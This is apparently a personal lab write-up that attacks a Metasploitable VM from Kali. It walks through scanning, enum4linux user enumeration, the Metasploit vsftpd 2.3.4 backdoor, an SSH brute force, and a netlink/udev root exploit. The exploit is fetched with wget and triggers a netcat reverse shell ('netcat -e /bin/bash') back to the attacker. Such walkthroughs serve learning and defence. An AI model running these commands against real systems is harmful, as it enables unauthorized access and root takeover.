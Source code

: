 I've always had a casual interest in exploring penetration testing. Over the last week I've taken to seeing what I could learn through my own exploration!

A few assumptions are made with this write-up.
1. Kali Linux and Metasploitable are both being run through Oracle VM VirtualBox.
2. Metasploitable's IP is `192.168.56.101` and Kali's IP is `192.168.56.102`
3. An additional network adapter is enabled on Kali to provide updates and downloads
4. This is personal hardware/software and no local laws are being broken.

Obviously, keep metasploitable and kali on a host-only virtual network. Don't let script kiddies have access to an intentionally exploitable machine!!

Enable a second network interface and update Kali. There's nothing wrong with skipping this step if you're staying on a host-only network, but it's good to be up to date. Once it's updated, be sure to switch your network adapter back to host-only mode.

## Let's get started!

Before starting anything, we want to find the IP of the machine we want to pwn. Let's use netdiscover

`netdiscover -r 192.168.56.100`
Now we've got a few IP addresses to scan.
Pinging `192.168.56.100` returns nothing, whereas `192.168.56.101` pings back! That gives us, with just 3 possible addresses to choose from, a good idea of our target's address.

Time to get more information on our target. We can use nmap to scan for TCP ports and the services they use.

`nmap -sV -O 192.168.56.101 -p1-65535`
- -sV to check open ports and version information
- -O to try to guess the operating system

![nmap result](/img/metasploitable/metasploitable1.png)
Lots of open ports! This is obviously on purpose. This gives us great information-- we can see what software and version number applies to each port.

## Enumeration for fun and profit
Kali has a wonderful script called enum4linux. This asks the remote Samba service for a list of users.

`enum4linux -U 192.168.56.101`
- -U displays the users

With some grepping and cutting, we can easily isolate a list of users for use later. `enum4linux -U 192.168.56.101 | grep 'user:' | cut -d'[' -f2 | cut -d']' -f1 > users.txt` Keep this file around for later!

## There's a few different ways you can get a shell. Here are two:

### vsftpd (port 21)
Boot up the metasploit console (`msfconsole`). With this, we can search for and execute various exploits. Let's look up vsftpd version 2.3.4

`search vsftpd 2.3.4`

![Search vsftpd](/img/metasploitable/metasploitable2.png)
Aha! An excellent backdoor exploit. We're given the namespace to the exploit, which we'll use to execute it.

`use exploit/unix/ftp/vsftpd_234_backdoor` (metasploit supports tab completion!)

Next, we'll set RHOST to our target's IP address. `set rhost 192.168.56.101`

and we'll set our RPORT to 21 to match the port that vsftpd is running on. `set rport 21`

Finally, we execute our attack with a simple `run`.

Press Enter, and you'll have gained access to a remote shell!
![remote shell](/img/metasploitable/metasploitable3.png)

### ssh (port 22)
We can employ a similar method to try and gain access to port 22. With metasploit still open, we'll use a [common ssh login check scanner](https://www.offensive-security.com/metasploit-unleashed/scanner-ssh-auxiliary-modules/).

`use auxillary/scanner/ssh/ssh_login`

Again, set your rhosts and rport to the corresponding information. (`set rhosts 192.168.56.101` and `set rport 22`)

We'll be using our previous wordlist to attempt to brute force our way in. `set user_file users.txt`.

Additionally, we'll want to `set user_as_pass true`. This might save us some time if our target decided to use the same password as their username.

In order to watch the brute force in action, we'll need to `set verbose true`.

Now a quick `run` should enumerate through the users file, trying each username as its own password.

![trial](/img/metasploitable/metasploitable4.png)
Not bad!

## Now what? Escalation!!

With the newfound limited user accounts that we now have access to, our next step is to elevate our user level. The whole point was to get root access, right?

What can we find by exploring the `user` user? Starting off with `uname -a` will give us details about the system. Through this, we can pick out the kernel version- 2.6.14. Let's dive into some CVEs! Some quick searching will give us [CVE-2009-1185](http://www.exploit-db.com/exploits/8572/). This exploits a Netlink in order to execute a payload from /tmp/run AS ROOT!!. Netlink is a way to pass data back and forth between the kernel and user-space.

We'll need to enable an external internet connection in order to download the exploit. While logged into the `user` account, `wget https://www.exploit-db.com/download/8572.c` (as always, audit all code you download!). Next, we'll need to compile our C code with `gcc -o exploit 8572.c`. This will create an executable named `exploit` that we can pass an argument to.

Once the exploit is compiled, we'll need to find the netlink process ID to pass as the argument to our script. We'll find this with `cat /proc/net/netlink`. Several results will display, but we want the one with an above-zero PID. In my case this is `2329`

Now we'll move on to the command we want to execute as root. With `vim /tmp/run` we can enter a command to execute as root. For this, netcat will execute a shell that we'll catch later. In /tmp/run, we'll enter the following. I'm choosing 1337 as my port because `1337 5P34K` is always cool.

```
#!/bin/bash
/bin/netcat -e /bin/bash 192.168.56.102 1337
```

Now, in another terminal local to our Kali environment, we'll need to catch netcat and listen on port 1337. To do this we use `nc -l -p 1337`.

Returning to our ssh'd Metasploitable terminal, we're finally going to execute our exploit! `./exploit 1337`

It wont look like anything is happening, but if we run `id` through our Kali terminal, we'll see that we're now `uid=0(root) gid=0(root)`! Just to make sure we're not seeing our Kali id, we'll check `uname -a` again.

![payload executed](/img/metasploitable/metasploitable5.png)

I hope you learned as much as I did! Of course, there are plenty of other ways to exploit vulnerable machines, and it's been an incredibly fun journey trying to figure out this much. I'm excited to learn more!
